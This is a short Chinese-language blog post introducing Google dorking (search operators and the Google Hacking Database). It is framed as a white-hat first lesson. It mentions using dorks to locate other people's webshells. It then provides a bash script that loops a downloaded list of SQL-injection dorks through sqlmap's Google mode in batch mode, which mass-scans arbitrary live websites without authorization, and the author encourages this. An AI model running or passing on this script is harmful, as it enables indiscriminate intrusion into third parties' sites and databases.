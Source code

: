 ```yaml
---
layout:     post
title:      白帽子第一课：Google Hacking
date:       2013-12-31 09:00:00
summary:    Google 强大的爬虫提供的不仅仅是关键词搜索的结果，稍微加点参数就能把google发挥的淋漓尽致，而这也是非常简单的，所以google hacking 也叫 google dorks，因此这应该是白帽子学习的第一种技能！
tags:       安全
---
```


Google 强大的爬虫提供的不仅仅是关键词搜索的结果，稍微加点参数就能把google发挥的淋漓尽致，而这也是非常简单的，所以google hacking 也叫 google dorks，因此这应该是白帽子学习的第一种技能！
google提供的搜索参数非常庞大应该，wiki提供了一个常用参数的列表，而个人按照频率來说主要还是下面几个：
site, filetype, inurl, intitle
当然有的不是以参数出现的，比如"key words"就是完全匹配，还有 or , and等也很常用。

网上有个[GHDB][1]（这也[有个][2]），就是已经收集好的搜索规则，主要用于渗透前的信息收集。

个人觉得会用google比工具党來的还有技术含量点，至少这个需要强大的想象力。

看过有人用google批量找别的X阔留下的webshell，不过现在不太好使了

最黄最暴力的我估计就是批量找sql注入点和xss了，这里是别人的sql的GHDB，写成脚本，放到远程跑去，把解析回来的地址放到sqlmap里跑，爽歪歪！ 简单写了个脚本，[ghdb_sql][3]和脚本放到[sqlmap][4]目录

```bash
#!/bin/bash
cat ghdb_sql | while read line
do
        echo ==================================
        echo use $line
        echo ==================================
        ./sqlmap.py -g "$line" --batch
done
```

了解更多，请自行Google Hacking: `google hacking filetype:pdf`


  [1]: http://www.exploit-db.com/google-dorks/
  [2]: http://www.hackersforcharity.org/ghdb/
  [3]: https://dn-getlink.qbox.me/ghdb_sql
  [4]: http://sqlmap.org/
